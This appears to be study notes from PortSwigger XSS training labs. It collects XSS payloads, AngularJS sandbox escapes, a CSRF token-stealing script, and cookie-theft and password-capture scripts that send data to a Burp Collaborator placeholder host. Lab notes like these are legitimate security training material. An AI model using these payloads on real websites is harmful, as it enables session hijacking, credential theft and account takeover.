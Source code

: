 # Cross-site Scripting

https://portswigger.net/web-security/cross-site-scripting

### There are three main types of XSS attacks:

- [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected), where the malicious script comes from the current HTTP request.
- [Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored), where the malicious script comes from the website's database.
- [DOM-based XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based), where the vulnerability exists in client-side code rather than server-side code.

#### [Cross-site scripting (XSS) cheat sheet by PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

-----

Injection inside img tag : ` "><svg onload=alert(1)> `

Injection in `href` attribute: `javascript:alert(document.cookie)`

jQuery's $() selector function to auto-scroll to a given post, whose title is passed via the location.hash property.
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

Injection into attribute: `"onmouseover="alert(1)`

Injection into a JavaScript string: `'-alert(1)-'`

Injection in AngularJS with `ng-app` attribute: `{{$on.constructor('alert(1)')()}}`

JSON response is used with an eval(): `\"-alert(1)}//`

if most tags and attributes blocked bruteforce all tags.
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

all tags blocked except custom ones
```
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

Injection in canonical link tag and escapes angle brackets: `https://YOUR-LAB-ID.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)`

Injection inside JavaScript template string: `${alert(1)}`

</br>

Steal cookies:
```
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

capture passwords:
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

CSRF:
```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

</br>

AngularJS sandbox escape without strings:
```
https://YOUR-LAB-ID.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```
> The exploit uses toString() to create a string without using quotes. It then gets the String prototype and overwrites the charAt function for every string. This effectively breaks the AngularJS sandbox. Next, an array is passed to the orderBy filter. We then set the argument for the filter by again using toString() to create a string and the String constructor property. Finally, we use the fromCharCode method generate our payload by converting character codes into the string x=alert(1). Because the charAt function has been overwritten, AngularJS will allow this code where normally it would not.

AngularJS sandbox escape and CSP:
```
<script>
location='https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>
```
> The exploit uses the `ng-focus` event in AngularJS to create a focus event that bypasses CSP. It also uses $event, which is an AngularJS variable that references the event object. The path property is specific to Chrome and contains an array of elements that triggered the event. The last element in the array contains the window object.
> 
> Normally, `|` is a bitwise or operation in JavaScript, but in AngularJS it indicates a filter operation, in this case the orderBy filter. The colon signifies an argument that is being sent to the filter. In the argument, instead of calling the alert function directly, we assign it to the variable `z`. The function will only be called when the orderBy operation reaches the window object in the `$event.path` array. This means it can be called in the scope of the window without an explicit reference to the window object, effectively bypassing AngularJS's window check.


event handlers and href attributes blocked:
```
https://YOUR-LAB-ID.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E
```

Injection in a JavaScript URL with some characters blocked:
```
https://YOUR-LAB-ID.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
```
> The exploit uses exception handling to call the alert function with arguments. The throw statement is used, separated with a blank comment in order to get round the no spaces restriction. The alert function is assigned to the onerror exception handler.
>
> As throw is a statement, it cannot be used as an expression. Instead, we need to use arrow functions to create a block so that the throw statement can be used. We then need to call this function, so we assign it to the toString property of window and trigger this by forcing a string conversion on window.



